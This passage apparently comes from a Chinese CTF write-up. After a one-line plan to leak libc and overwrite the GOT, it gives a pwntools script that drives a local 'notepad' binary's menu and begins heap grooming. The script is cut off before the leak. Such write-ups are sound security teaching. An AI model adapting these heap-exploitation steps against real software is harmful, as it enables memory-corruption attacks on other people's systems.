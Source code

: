 

接下来泄露libc，改写got表一气呵成。



exploit:

```python
#!/usr/bin/env python
# -*- coding=utf8 -*-
"""
# Author: le3d1ng
# Created Time : 2019年04月06日 星期六 19时35分57秒
# File Name: exp2.py
# Description:
"""
from pwn import *

io = process('./notepad')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

context.log_level = 'info'
context.terminal = ['terminator' , '-x' , 'sh' , '-c']

def debug():
	gdb.attach(io)
	io.interactive()
def addnote(name,password,size,content):
	io.sendlineafter('choice> ','1')
	io.sendafter('name> ',name)
	io.sendlineafter('no)> ','1')
	io.sendlineafter('word> ',password)
	io.sendlineafter('size> ',str(size))
	io.sendlineafter('content> ',content)

def shownote(name,passwd):
	io.sendlineafter('choice> ','2')
	io.sendafter('name> ',name)
	io.sendlineafter('word> ',passwd)
def editnote(name,passwd,size,content):
	io.sendlineafter('choice> ','3')
	io.sendafter('name> ',name)
	io.sendlineafter('word> ',passwd)
	io.sendlineafter('no)> ','0')
	io.sendlineafter('size> ',str(size))
	io.sendlineafter('content> ',content)
def delnote(name,passwd):
	io.sendlineafter('choice> ','4')
	io.sendafter('name> ',name)
	io.sendlineafter('password> ',passwd)


success("Initing!")
passwd = "le3d1ng".encode("base64") + "\x00"
#addnote('0'*0x10,passwd,0x20,'0')
addnote('1'*0x10,passwd,0x1c0,'1')
addnote('2'*0x10,passwd,0x20,'2')
addnote('3'*0x10,passwd,0x20,'3')
#addnote('4'*0x10,passwd,0x20-1,'4')
#debug()


success("Resizing chunks!")
delnote('1'*0x10,passwd)
addnote('1'*0x10,passwd,0x30,'aaaaaaa')
```